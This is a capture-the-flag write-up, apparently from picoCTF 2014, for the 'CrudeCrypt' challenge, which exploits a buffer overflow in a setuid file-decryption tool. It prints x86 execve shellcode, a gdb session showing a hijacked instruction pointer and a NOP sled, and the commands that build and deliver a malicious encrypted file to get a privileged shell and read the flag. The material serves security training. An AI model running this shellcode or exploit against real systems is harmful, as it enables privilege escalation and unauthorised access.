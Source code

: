 CrudeCrypt - 180
================

### Desc:
Without proper maintainers, development of Truecrypt has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the code and read the contents of flag.txt from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.

### Hint:
You can never trust user input!

### Getting the flag:

```
$ echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xd2\x52\x53\x89\xe1\xcd\x80' > raw.txt
$ gcc -ocrude_crypt2 crude_crypt2.c -lcrypto -lmcrypt

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/crudecrypt/crude_crypt decrypt enc.txt raw.txt
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: foobar


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/x $esp
0xffffd630:	0x90909090

$ ./crude_crypt2 raw.txt enc.txt
$ scp enc.txt pico22418@shell2014.picoctf.com:/tmp/sigsegv
$ /home/crudecrypt/crude_crypt decrypt enc.txt raw.txt
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: foobar

$ id
uid=13315(pico22418) gid=1017(picogroup) egid=1012(crudecrypt) groups=1017(picogroup)
$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```

